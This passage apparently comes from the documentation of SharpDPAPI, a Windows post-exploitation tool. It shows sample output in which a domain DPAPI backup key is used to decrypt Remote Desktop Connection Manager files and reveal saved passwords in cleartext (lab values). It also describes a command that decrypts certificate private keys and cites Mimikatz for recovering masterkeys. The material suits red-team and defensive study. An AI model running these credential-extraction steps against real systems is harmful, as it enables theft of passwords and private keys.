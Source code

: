 
 [*] Action: RDG Triage

 [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

 [*] User master key cache:

 {42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316E94CC4CE4665
 ...(snip)...

 [*] Triaging RDCMan.settings Files for ALL users

 RDCManFile : C:\Users\harmj0y\AppData\Local\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
 Accessed : 5/9/2019 1158 AM
 Modified : 5/9/2019 1158 AM
 Recent Server : test\primary.testlab.local

 Cred Profiles

 Profile Name : testprofile
 UserName : testlab.local\dfm.a
 Password : Password123!

 Default Logon Credentials

 Profile Name : Custom
 UserName : TESTLAB\harmj0y
 Password : Password123!

 C:\Users\harmj0y\Documents\test.rdg

 Servers

 Name : secondary.testlab.local

 Name : primary.testlab.local
 Profile Name : Custom
 UserName : TESTLAB\dfm.a
 Password : Password123!


#### certificates

The **certificates** command will search user encrypted DPAPI certificate private keys a) decrypt them with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys, which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.

A specific certificiate can be specified with `/target\Folder\`. In this case, either a) {GUID}:SHA1 values must be supplied or b) the folder must contain DPAPI masterkeys and a /pvk domain backup key must be supplied.

Using domain {GUID}:SHA1 masterkey mappings:

 C:\Temp>SharpDPAPI.exe certificates {2fd105b7-ec31-4f33-969e-f57c16d8e718}:79097C8...

 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.7.0

